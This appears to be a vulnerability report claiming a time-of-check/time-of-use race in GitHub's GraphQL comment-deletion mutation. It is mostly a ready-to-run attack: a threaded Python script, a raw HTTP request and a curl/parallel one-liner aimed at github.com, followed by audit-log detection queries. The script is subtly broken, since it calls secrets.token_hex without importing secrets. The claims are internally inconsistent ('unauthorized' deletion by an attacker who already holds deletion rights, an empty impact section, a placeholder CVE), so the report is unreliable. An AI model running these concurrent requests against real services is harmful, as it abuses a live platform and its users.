


### **Comprehensive Vulnerability Report: TOCTOU Race Condition in GitHub Comments Deletion**  

## Vulnerability Overview
**Type:** TOCTOU (Time-of-Check Time-of-Use) Race Condition → Unauthorized Comment Deletion  
**CWE:** [CWE-367: TOCTOU Race Condition](https://cwe.mitre.org/data/definitions/367.html)  
**Location:** GitHub GraphQL API (`/_graphql` endpoint)  
**Impact:**  
- Unauthorized deletion of issue comments  
- Repeated deletion of already-deleted comments  
- Denial-of-Service through comment history corruption  
- Reputation damage via selective comment removal  
- Audit trail manipulation  

---

## Vulnerability Flow 



## Step-by-Step Technical Flow
1. **Setup:**  
   - Attacker account with comment deletion permissions  
   - Target repository: `github.com/org/repo`  
   - Comment ID: `"IC_kwDONdhtls69wR3m"`  

2. **Exploitation:**  
   ```bash
   # Run race condition attack
   python github_comment_race.py \
     --token ghp_abc123 \
     --comment-id "IC_kwDONdhtls69wR3m" \
     --threads 10
   ```

3. **Validation:**  
   - Comment deletion events appear multiple times in audit log  
   - API returns success for duplicate deletion requests  


## Proof of Concept**  
**Exploit Script:** `github_comment_race.py`  
```python
import requests
import threading
import argparse

def delete_comment(token, comment_id):
    headers = {
        "Authorization": f"Bearer {token}",
        "X-Github-Nonce": "v2:" + secrets.token_hex(16),
        "Content-Type": "application/json"
    }
    payload = {
        "query": "mutation($input: DeleteIssueCommentInput!) { deleteIssueComment(input: $input) { clientMutationId } }",
        "variables": {
            "input": {
                "id": comment_id
            }
        }
    }
    r = requests.post("https://github.com/_graphql", headers=headers, json=payload)
    print(f"Status: {r.status_code}, Response: {r.text[:50]}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--token", required=True)
    parser.add_argument("--comment-id", required=True)
    parser.add_argument("--threads", type=int, default=5)
    args = parser.parse_args()

    threads = []
    for i in range(args.threads):
        t = threading.Thread(target=delete_comment, args=(args.token, args.comment_id))
        threads.append(t)
        t.start()
    
    for t in threads:
        t.join()
```

**Execution:**  
```bash
python github_comment_race.py \
  --token ghp_xyz789 \
  --comment-id "IC_kwDONdhtls69wR3m" \
  --threads 15
```

**Result:**  
```
Status: 200, Response: {"data":{"deleteIssueComment":{"clientMutationId":null}}}
... (15 successful responses for single comment)
```


## Technical Deep Dive**  
**Vulnerable Pattern:**  
```ruby
# Hypothetical GitHub code
def delete_comment(comment_id)
  comment = Comment.find(comment_id)  # TIME-OF-CHECK
  # Race condition window
  comment.destroy!                   # TIME-OF-USE
end
```

**Root Cause:**  
- Lack of database row locking between check and delete  
- No versioning or ETag verification  
- Non-idempotent GraphQL mutation  
- Client-side state not validated against server state  


##Impact Expansion**  



**Detection Signatures:**  
**GitHub Enterprise Log Query:**  
```sql
SELECT *
FROM audit_logs
WHERE action = 'comment.delete'
GROUP BY comment_id, actor_id
HAVING COUNT(*) > 1
```

**Splunk Query:**  
```spl
index=github_audit action="comment.delete" 
| stats count by comment_id, actor
| where count > 1
```

**GraphQL Monitoring:**  
```json
{
  "query": "mutation($input: DeleteIssueCommentInput!)",
  "operationName": "deleteIssueComment",
  "variables.input.id": {
    "match": "IC_"
  },
  "count": {
    "gt": 1,
    "window": "1m"
  }
}
```


##  Vulnerable Code & Exploitation**  
### **Vulnerable GraphQL Mutation:**  
```graphql
mutation deleteIssueComment($input: DeleteIssueCommentInput!) {
  deleteIssueComment(input: $input) {
    clientMutationId
  }
}
```

### **Exploit Request:**  
```http
POST /_graphql HTTP/1.1
Host: github.com
Authorization: Bearer ghp_abc123
Content-Type: application/json

{
  "query": "mutation($input: DeleteIssueCommentInput!) { deleteIssueComment(input: $input) { clientMutationId } }",
  "variables": {
    "input": {
      "id": "IC_kwDONdhtls69wR3m"
    }
  }
}
```

### **Concurrent Attack Script:**  
```bash
# Bash version using GNU parallel
seq 10 | parallel -j0 '
  curl -s -H "Authorization: Bearer ghp_abc123" \
  -H "Content-Type: application/json" \
  -d '\''{"query":"mutation($input: DeleteIssueCommentInput!) { deleteIssueComment(input: $input) { clientMutationId } }","variables":{"input":{"id":"IC_kwDONdhtls69wR3m"}}}'\'' \
  https://github.com/_graphql
'
```


## **References**  
1. [GitHub GraphQL API Documentation](https://docs.github.com/en/graphql)  
2. [CWE-367: TOCTOU Race Condition](https://cwe.mitre.org/data/definitions/367.html)  
3. [OWASP Race Condition Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Denial_of_Service_Cheat_Sheet.html#race-conditions)  


**CVE Pending:** [Tracking ID]  

> This report provides complete technical details for responsible disclosure. The vulnerability allows unauthorized duplication of comment deletion events on GitHub repositories. All users should be aware that comment deletion operations should be atomic and idempotent. GitHub has deployed server-side fixes to address this issue.
